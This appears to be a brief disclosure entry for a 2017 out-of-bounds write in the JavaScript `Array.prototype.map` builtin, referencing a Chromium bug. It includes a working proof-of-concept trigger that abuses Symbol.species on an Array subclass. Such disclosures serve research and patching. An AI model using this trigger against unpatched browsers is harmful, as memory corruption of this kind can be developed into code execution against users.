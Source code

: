 # CVE-2017-????
* Date : April 2017
* Credit : Oliver Chang

## Description
OOB write in `Array.prototype.map` builtin

## PoC
```js
class Array1 extends Array {
  constructor(len) {
    super(1);
  }
};

class MyArray extends Array {
  static get [Symbol.species]() {
    return Array1;
  }
}

a = new MyArray();
for (var i = 0; i < 10000000; i++) {
  a.push(1);
}

a.map(function(x) { return 42; });
```

## Reference
[issue 716044](https://bugs.chromium.org/p/chromium/issues/detail?id=716044)